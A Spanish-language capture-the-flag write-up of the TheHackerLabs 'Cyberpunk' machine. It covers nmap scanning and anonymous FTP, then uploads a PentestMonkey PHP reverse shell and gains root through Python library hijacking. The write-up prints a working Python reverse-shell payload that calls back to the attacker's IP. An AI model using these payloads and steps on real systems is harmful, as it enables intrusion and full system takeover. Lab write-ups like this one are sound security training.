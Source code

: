 ```yaml
---
title: "TheHackerLabs - Principiante : [Cyberpunk]"
date: 2024-09-06 19:00:00 +0200
categories: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
tags: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
image: /img/posts/CTF/Cyberpunk/image.jpg
---
```



## Introducción

Bienvenidos al desafío **"Cyberpunk - Relic Infiltration"**, un CTF basado en Linux para principiantes. Este writeup narramos paso a paso cómo se llevó a cabo la infiltración y explotación de vulnerabilidades, desde el reconocimiento inicial hasta la escalada de privilegios y obtención de acceso como **root**.

## Identificación de la Red

Empezamos identificando la IP de la máquina objetivo utilizando el comando `ip a` para verificar nuestra configuración de red y luego con `arp-scan` escaneamos la red local en busca de la IP de la máquina vulnerable.

```bash
❯ ip a
```


```bash
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    inet 10.0.2.5/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
```

Ahora ejecutamos `arp-scan` para identificar las máquinas en la red.

```bash
❯ arp-scan -I eth0 --localnet
```



```bash
10.0.2.8    08:00:27:43:1e:91   (Unknown)
```

## Escaneo de Puertos con Nmap

Procedemos con un escaneo completo de puertos utilizando `nmap` para identificar servicios expuestos.

```bash
❯ nmap -p- -Pn -n --min-rate 2000 10.0.2.8 -oG allports
```



```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Realizamos un escaneo más detallado en los puertos 21, 22 y 80.

```bash
❯ nmap -sSCV -p21,22,80 -vvv 10.0.2.8 -oN ports
```


Puerto 21 con acceso anónimo, un archivo `index.html`, y un archivo `secret.txt`. El puerto 80 presenta un servidor HTTP Apache.


## Acceso al FTP Anónimo

Nos conectamos al servicio FTP usando acceso anónimo.

```bash
❯ ftp anonymous@10.0.2.8
Password: 
ftp> ls
```

Archivos disponibles:

```bash
-rw-r--r--   1 0        0             713 May  1 14:55 index.html
-rw-r--r--   1 0        0             923 May  1 08:51 secret.txt
```

Descargamos y analizamos el archivo `secret.txt`:

```bash
❯ cat secret.txt
```

Contenido de `secret.txt`:

```r
*********************************************
*                                           *
*        Hola Netrunner,                    *
*                                           *
*   Has sido contratado por el mejor fixer  *
*   de la ciudad para llevar a cabo una     *
*   misión crucial.                         *
*                                           *
*   Tenemos información de que Arasaka,     *
*   la mega-corporación más poderosa de     *
*   Night City, está migrando sus sistemas  *
*   y actualmente parece ser vulnerable.    *
*                                           *
*   Necesitamos que te infiltres en sus     *
*   sistemas y desactives el Relic para     *
*   salvar la vida de V.                    *
*                                           *
*   Te espero en Apache.                    *
*                                           *
*                         - Alt             *
*********************************************
```

## Subida de Reverse Shell

Descargamos un reverse shell PHP desde el repositorio de PentestMonkey.

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Subimos el archivo PHP al servidor a través de FTP.

```bash
ftp> put php-reverse-shell.php
```

## Ejecución de Reverse Shell

A continuación, accedemos al puerto HTTP para ejecutar el archivo `php-reverse-shell.php`. Nos conectamos a nuestra máquina a través de Netcat:

```bash
❯ nc -lnvp 443
# whoami
www-data
```

## Escalada de Privilegios

Exploramos el sistema y encontramos un archivo interesante en `/opt/arasaka.txt`, que contiene una cadena cifrada en **Brainfuck**.

```bash
++++++++++[>++++++++++>++++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++++>+++++++++++>+++++++++++>+++++>+++++>++++++<<<<<<<<<<<<-]>-.>+.>--.>+.>++++.>++.>---.>.>---.>.>--.>-----..
```

Desciframos la cadena y encontramos información útil. Nos autenticamos como el usuario `arasaka` y descubrimos que podemos ejecutar un script Python con privilegios de `root`.

```bash
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```

### Explotación de la Vulnerabilidad

Usamos **Python Library Hijacking** para obtener acceso como root modificando el script.

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.2.5", 4443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
```

Nos conectamos nuevamente a través de Netcat, esta vez como **root**.

```bash
# whoami
root
```

## Conclusión

Al final del desafío, logramos infiltrarnos en los sistemas de Arasaka, desactivar el Relic y obtener acceso como root. Este writeup demuestra la importancia de la configuración adecuada de permisos y la protección de servicios expuestos.

Herramientas utilizadas:
- `nmap`
- `ftp`
- `netcat`
- `python`

Medidas de protección:
- Configuración correcta de permisos.
- Auditoría de servicios.
- Uso de autenticación multifactor para servicios sensibles.

¡Gracias por acompañarnos en este desafío!
